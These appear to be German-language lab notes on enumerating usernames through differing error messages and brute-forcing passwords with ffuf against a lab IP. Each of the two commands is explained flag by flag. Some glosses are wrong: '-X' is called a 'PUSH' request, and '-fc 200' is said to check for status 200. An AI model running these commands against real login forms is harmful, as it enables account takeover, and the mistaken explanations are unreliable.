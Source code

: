 ### Usernames Herausfinden via Error Meldungen

Funktioniert anhand der Unterschiedlichen Meldungen wenn versucht wird sich mit einem Unbekannten Nutzer gegenüber mit einem Bekannten Nutzer mit Falschem PW anzumelden

Beispiel via ffuf
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.46/customers/signup -mr "username already exists"
```

Befehl erklärt: 
**fuff** ist klar zum starten
**-w**  Spezifiziert die Wordlist mit dem Pfad dahinter 
**-X** Spezifiziert die art des Requests (Default GET) hier geändert auf POST
**-d** Spezifiziert die Daten die wir senden hier die Felder Username, Password, cpassword. in dem beispiel setzen wir die daten für "Username" auf FUZZ damit diese durchgetestet werden
**-H** wird verwendet, um der Anfrage zusätzliche Kopfzeilen hinzuzufügen. In diesem Fall setzen wir den Content-Type, damit der Webserver weiß, dass wir Formulardaten senden
**-u** Spezifiziert die URL des Ziels 
**-mr** Spezifiziert den Text den wir als Reply suchen um zu wissen das es den Username gibt

### Passwort via fuff Brute Forcen
Beispiel Befehl:

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.46/customers/login -fc 200`

Befehl erklärt:
- fuff Startet den Befehl 
- -w spezifiziert die Wordlists (da zwei genutzt werden Spezifizierung auf W1 und W2)
- -X Spezifiziert das es ein PUSH Request sein soll
- -d Spezifiziert welche daten auf wohin sollen 
- -H wird verwendet, um der Anfrage zusätzliche Kopfzeilen hinzuzufügen. In diesem Fall setzen wir den Content-Type, damit der Webserver weiß, dass wir Formulardaten senden
- -u Gibt die Ziel URL vor
- -fc 200 chect für HTTP Status Code 200 